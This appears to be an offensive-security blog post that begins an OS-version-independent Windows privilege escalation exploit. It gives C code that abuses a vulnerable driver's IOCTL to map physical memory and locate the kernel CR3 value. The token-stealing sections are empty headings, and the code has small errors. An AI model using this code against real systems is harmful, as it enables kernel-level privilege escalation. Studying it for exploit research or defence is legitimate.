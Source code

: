 [Home](https://plackyhacker.github.io)

# Version Independent Physical Memory Read/Write Privilege Escalation

This is my first post since passing the [Offensive Security Exploitation Expert](https://www.offsec.com/courses/exp-401/) exam. I suppose it is now time to start practicing my chosen tradecraft. I am currently studying a vulnerability that was discovered in early 2025, was being used in ransomware attacks, but doesn't have a public exploit (that I am aware of). I will be posting something about that shortly.

This got me thinking about how I might write a privilege escalation exploit that is operating system version independent. I decided to look at [CVE-2020-12446](https://nvd.nist.gov/vuln/detail/CVE-2020-12446) which has multiple vulnerabilities leading to privilege escalation.

The CVE isn't really what I am interested in, any CVE with a physical read/write primitive would do.

# The Basics

If you are reading this then I assume you know how a driver works and how we can connect to it from user-mode. If not, feel free to read some of my other posts. The symbolic name for the driver is `\\.\EneIo` and the vulnerable IOCTL I decided to target is `0x80102040`. Short story: this IOCTL maps the physical memory in kernel-space to a virtual address space in user-space.

The code snippet below shows how we can map the physical memory space to a virtual allocation:

```c
// user-mode data structure
typedef struct _MAPPHYSTOVA {
    ULONGLONG Size;
    ULONGLONG Ignore2;
    ULONGLONG Ignore3;
    ULONGLONG MappingAddress;
    ULONGLONG Ignore5;
} MAPPHYSTOVA, * PMAPPHYSTOVA;

// ...


// send IOCTL to map memory
ULONGLONG MapMemory(HANDLE hDevice, ULONGLONG* SizeOfMapping) {
    DWORD bytesReturned = 0;

    MAPPHYSTOVA map = { 0 };

    BOOL result = DeviceIoControl(hDevice, IOCTL_WINIO_MAPPHYSTOVA, &map, sizeof(map), &map, sizeof(map), &bytesReturned, NULL);

    *SizeOfMapping = map.Size;
    return mapIn.MappingAddress;
}
```

The struct contains five `ULONGLONG` fields but only two of them are used: `Size` is the size of the mapping, and `MappingAddress` the virtual allocation that has been assigned by the kernel. Notice that the `map` variable is passed in as the user input and the user output. Once the `DeviceIOControl` is completed the `map` variable is popoulated with the two revelant variables.

# Virtual Address to Physical Memory Mapping



# Dicovering the CR3 Value

In the Windows OS the `HalpLMStub` function is the final stub call, in a series of stubs, that applies page tables and performs various initialisation before jumping to the main kernel. A reference to this function is written to physical memory between addresses `0x10000` and `0x20000` and is randomised. 

Within the same page is a value that is to be loaded in to the `SYSTEM` `cr3` register. The `cr3` register contains a pointer to the first page table, the PML4 table.

To make things easier the two values are at predictable locations within the page. The `HalpLMStub` pointer is at offset `+0x70` and the `cr3` value is at offset `+0xa0`.

Once we have a mapping of physical memory we can search the pages between `0x10000` and `0x20000` and do pattern matching at these offsets to find the page which the stub pointer exists and the base address of the PML4 table.

```c
DWORD FindCR3Value(ULONGLONG VirtualAddressBase, DWORD* cr3Page) {

    DWORD count = 0;

    // the final stub reference is always between 0x10000 and 0x20000
    for (DWORD page = 0x10000; pageIndex <= 0x20000; pageIndex += 0x1000) {
        // CR3 value is at an offset of 0xA0
        DWORD64 potential_cr3 = *((DWORD64*)((BYTE*)VirtualAddressBase + page + 0xA0));

        if ((potential_cr3 & 0xFFF) == 0 &&
            ((potential_cr3 >> 12) & 0xF) != 0 && ((potential_cr3 >> 16) & 0xF) != 0 && ((potential_cr3 >> 20) & 0xF) != 0 &&
            (potential_cr3 >> 24) == 0) {

            // halpLMStub reference is at an offset of 0x70
            DWORD64 checkHalpLMStub = *((DWORD64*)(BYTE*)VirtualAddressBase + page + 0x70));
            if ((checkHalpLMStub & 0xfffff80000000000) == 0xfffff80000000000) {
                *cr3Page = page;
                return ((DWORD)potential_cr3 & 0xFFFFFFFF);
            }
        }
    }

    return 0;
}
```



# Discovering NTOSKRNL Base

# Discovering Processes

# Discovering Privileged Processes

# Token Stealing

# Conclusion

[Home](https://plackyhacker.github.io)

